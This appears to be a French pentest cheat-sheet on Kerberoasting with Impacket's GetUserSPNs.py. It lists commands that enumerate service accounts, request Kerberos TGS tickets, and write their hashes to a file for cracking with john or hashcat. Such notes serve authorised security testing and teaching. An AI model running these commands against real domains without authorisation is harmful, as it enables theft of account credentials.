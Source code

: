 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Impacket

### Utiliser GetUserSPNs.py

 Il réalise les opérations suivantes :

- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```shell
# remarque : on peut utliser -target-domain <domain> si on veut attaquer un autre domaine 

# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET $DOMAIN/$USER:$PASSWORD

# Récupération des TGS (ajout de -request)
GetUserSPNs.py -dc-ip $TARGET $DOMAIN/$USER:$PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET $DOMAIN/$USER:$PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET $DOMAIN/$USER:$PASSWORD -request -outputfile hash_kerberoastables.txt

```
